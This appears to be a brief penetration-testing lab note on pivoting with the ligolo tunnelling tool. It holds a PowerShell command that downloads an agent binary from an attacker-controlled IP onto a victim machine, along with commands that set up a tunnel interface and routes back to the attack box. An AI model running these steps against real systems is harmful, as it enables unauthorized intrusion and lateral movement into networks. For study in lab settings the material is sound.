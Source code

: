 Had good luck with ligolo in the past lets try again..

```powershell
iwr -uri "http://192.168.45.228:8888/agent.exe" -outfile "C:\Users\Public\Downloads\agent.exe"
```

# ligolo setup

on attack box
```bash
 sudo ip tuntap add user <username> mode tun ligolo

 sudo ip link set ligolo up

 ./poxy -selfcert
```

on victem

``` powershell
.\agent -connect 192.168.45.228:11601 -ignore-cert
```

on attack box

``` bash 
 sudo ip route add <network_address>/<CIDR> dev ligolo
```